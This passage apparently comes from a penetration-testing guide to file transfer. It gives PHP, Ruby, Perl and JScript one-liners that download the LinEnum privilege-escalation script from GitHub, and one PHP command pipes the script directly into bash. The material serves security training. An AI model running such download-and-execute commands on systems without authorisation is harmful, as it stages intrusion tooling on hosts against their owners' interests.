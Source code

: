 #### PHP Download with File_get_contents() and  file_put_contents ()

```php
# PHP file_get_contents() module to download content from a website combined with the file_put_contents() module to save the file into a directory. PHP can be used to run one-liners from an operating system command line using the option -r.
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### PHP Download with Fopen()

```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP Download a File and Pipe it to Bash

```php
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
# The URL can be used as a filename with the @file function if the fopen wrappers have been enabled. 
```


### Ruby

**Download a File:**

```ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```


### Perl

**Download a File:**

```perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```


### JavaScript

**Download a File Using JavaScript and cscript.exe:**

First save the following text as `wget.js`:

```js
// wget.js content:
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

WScript.Echo(WinHttpReq.ResponseText);

/* To save a binary file use this code instead of previous line
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
*/
```